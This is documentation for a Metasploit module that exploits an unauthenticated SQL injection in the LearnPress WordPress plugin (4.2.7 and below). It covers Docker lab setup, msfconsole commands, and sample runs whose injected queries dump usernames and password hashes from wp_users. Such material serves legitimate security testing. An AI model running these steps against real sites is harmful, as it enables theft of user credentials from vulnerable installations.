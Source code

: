 ## Vulnerable Application

The vulnerability affects the **LearnPress** plugin, version **4.2.7** and below,
allowing unauthenticated SQL injection via the `c_only_fields` and `c_fields` parameters.

### Pre-requisites:
- **Docker** and **Docker Compose** installed on your system.

### Setup Instructions:

1. **Download the Docker Compose file**:
   - Below is the content of the **docker-compose.yml** file to set up WordPress with the vulnerable LearnPress plugin and a MySQL database.

```yaml
version: '3.1'

services:
  wordpress:
    image: wordpress:latest
    restart: always
    ports:
      - 5555:80
    environment:
      WORDPRESS_DB_HOST: db
      WORDPRESS_DB_USER: chocapikk
      WORDPRESS_DB_PASSWORD: dummy_password
      WORDPRESS_DB_NAME: exploit_market
    mem_limit: 512m
    volumes:
      - wordpress:/var/www/html
      - ./custom.ini:/usr/local/etc/php/conf.d/custom.ini

  db:
    image: mysql:5.7
    restart: always
    environment:
      MYSQL_DATABASE: exploit_market
      MYSQL_USER: chocapikk
      MYSQL_PASSWORD: dummy_password
      MYSQL_RANDOM_ROOT_PASSWORD: '1'
    volumes:
      - db:/var/lib/mysql

volumes:
  wordpress:
  db:
```

2. **Add custom PHP configuration** (for plugin uploads):
   - Create a file named `custom.ini` in the same directory as `docker-compose.yml` with the following content:

```bash
upload_max_filesize = 64M
post_max_size = 64M
```

This increases the file size limits for uploading the LearnPress plugin.

3. **Start the Docker environment**:
   - In the directory where you saved the `docker-compose.yml` file, run the following command to start the services:

```bash
docker-compose up -d
```

4. **Install LearnPress Plugin**:
   - Download the vulnerable version of LearnPress:

```bash
wget https://downloads.wordpress.org/plugin/learnpress.4.2.7.zip
```

   - Install the plugin in your running WordPress instance:
     - Extract the plugin files and copy them to your WordPress container:

```bash
unzip learnpress.4.2.7.zip
docker cp learnpress wordpress:/var/www/html/wp-content/plugins/
```

   - Navigate to `http://localhost:5555/wp-admin` in your browser and activate the **LearnPress** plugin in the WordPress admin panel.

## Verification Steps

1. **Set up WordPress** with the vulnerable **LearnPress 4.2.7** plugin.
2. **Start Metasploit** using the command `msfconsole`.
3. Use the correct module for the vulnerability:

```bash
use auxiliary/scanner/http/wp_learnpress_c_fields_sqli
```

4. Set the target's IP and URI:

```bash
set RHOSTS <target_ip>
set TARGETURI /
```

5. **Run the module**:

```bash
run
```

6. **Verify the SQL Injection**:
   - After running the module, the SQL injection payload will attempt to retrieve or manipulate data from the WordPress database.

## Options

### COUNT
This option specifies the number of rows to retrieve from the database during the SQL injection attack.
For example, setting `COUNT` to 5 will retrieve 5 rows from the `wp_users` table.

## Scenarios

The following scenario demonstrates an SQL injection attack against a WordPress installation running
**LearnPress <= 4.2.7** on a Docker environment with MySQL.

### Step-by-step Scenario

```bash
msf6 auxiliary(scanner/http/wp_learnpress_c_fields_sqli) > run http://127.0.0.1:5555

[*] Performing SQL injection via the 'c_only_fields' parameter...
[*] {SQLi} Executing (select group_concat(LKzEL) from (select cast(concat_ws(';',ifnull(user_login,''),ifnull(user_pass,'')) as binary) LKzEL from wp_users limit 1) ssrDlly)
[*] {SQLi} Time-based injection: expecting output of length 44
[+] Dumped user data:
wp_users
========

    user_login  user_pass
    ----------  ---------
    chocapikk   $P$BPdY0XccQT2nvSXE8bjsn1CERoF7eJ.

[+] Loot saved to: /home/chocapikk/.msf4/loot/20240920003917_default_127.0.0.1_wordpress.users_803563.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/wp_learnpress_c_fields_sqli) > set action CVE-2024-8529
action => CVE-2024-8529
msf6 auxiliary(scanner/http/wp_learnpress_c_fields_sqli) > run http://127.0.0.1:5555

[*] Performing SQL injection via the 'c_fields' parameter...
[*] {SQLi} Executing (select group_concat(hhtd) from (select cast(concat_ws(';',ifnull(user_login,''),ifnull(user_pass,'')) as binary) hhtd from wp_users limit 1) mqRlJXbdH)
[*] {SQLi} Time-based injection: expecting output of length 44
[+] Dumped user data:
wp_users
========

    user_login  user_pass
    ----------  ---------
    chocapikk   $P$BPdY0XccQT2nvSXE8bjsn1CERoF7eJ.

[+] Loot saved to: /home/chocapikk/.msf4/loot/20240920004105_default_127.0.0.1_wordpress.users_099358.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
